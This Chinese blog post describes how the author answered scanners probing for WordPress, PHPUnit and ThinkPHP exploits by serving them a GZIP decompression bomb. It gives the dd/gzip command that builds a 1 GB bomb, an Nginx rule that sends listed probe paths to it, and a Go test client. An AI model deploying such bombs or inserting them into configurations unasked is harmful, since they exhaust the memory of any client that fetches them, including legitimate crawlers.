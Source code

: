 ﻿---
layout:     post
title:      "部署GZIP炸弹反网页爬虫"
subtitle:   " GZIP炸弹"
date:       2022-01-25 12:00:00
author:     "Jinnrry"
header-img: "img/26.jpg"
catalog: true
tags:
    - Nginx
---
## 背景

最近网站访问量突然暴涨，QPS达到300+，每小时请求量达到了100W+。我还以为我突然出名了，结果掏出Nginx日志一看，100万请求中有100万都是404页面，访问路径全部都是

```
/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
/wp/install.php
/thinkphp/exec.php
```
类似的这种地址。很明显有脚本小子在觊觎我的服务器，想尝试用这种方式黑进来。

虽然这种破手段不可能黑进我服务器，但是这么高的请求量，也挺恶心人的，大量的404页面，导致很多日志文件直接把我服务器磁盘打满了。因此决定我也得恶心一下他们。

## GZIP炸弹

在HTTP请求传输过程中，为了节约网络带宽，因此一般会使用GZIP对传输内容进行压缩。因此基于这一点，我们可以生成一个压缩比例超级超级高的GZIP文件，然后把这个文件返回给他，从而直接撑爆对方服务。

## 生成GZIP炸弹

```
dd if=/dev/zero bs=1M count=1024 | gzip > bomb.gzip
```
在linux下使用这个命令可以生成一个1M大小的文件，这个文件解压将会达到1G大小。看网上其他文章，这个文件还能继续压缩，从而使炸弹威力更大，不过我懒得研究了，就这样吧，1G也不小了

## 部署炸弹

直接在Nginx中添加规则

```
        # 通过正则匹配脚本小子经常扫描的一些路径，将这些路径直接rewrite到炸弹路径去
        location ~ (wlwmanifest|sitemap|xmlrpc|config\.php|wp-login|sign_in|execute-solution|wp-admin|eval-stdin\.php) {
           rewrite ^/.* /bomb.gzip;
        }

        # 炸弹页面
        location = /bomb.gzip {
          root /;
          access_log off;
          add_header Content-Encoding gzip;
          gzip off;
          default_type 'text/html';
        }
```

## 检验炸弹威力

我使用Golang写了一个模拟爬虫测试，代码如下

```
package main

import (
	"fmt"
	"io/ioutil"
	"net/http"
	"time"
)

func main() {
	resp, _ := http.Get("https://jinnrry.com/wlwmanifest")
	body, _ := ioutil.ReadAll(resp.Body)
	fmt.Println(len(body))  // 输出1073741824
	time.Sleep(10 * time.Second)
}

```
程序运行后，打开任务管理器，可以看到这个程序内存占用达到了2G，虽然我也不知道为什么1G的炸弹威力会翻倍，不过反正炸弹生效了

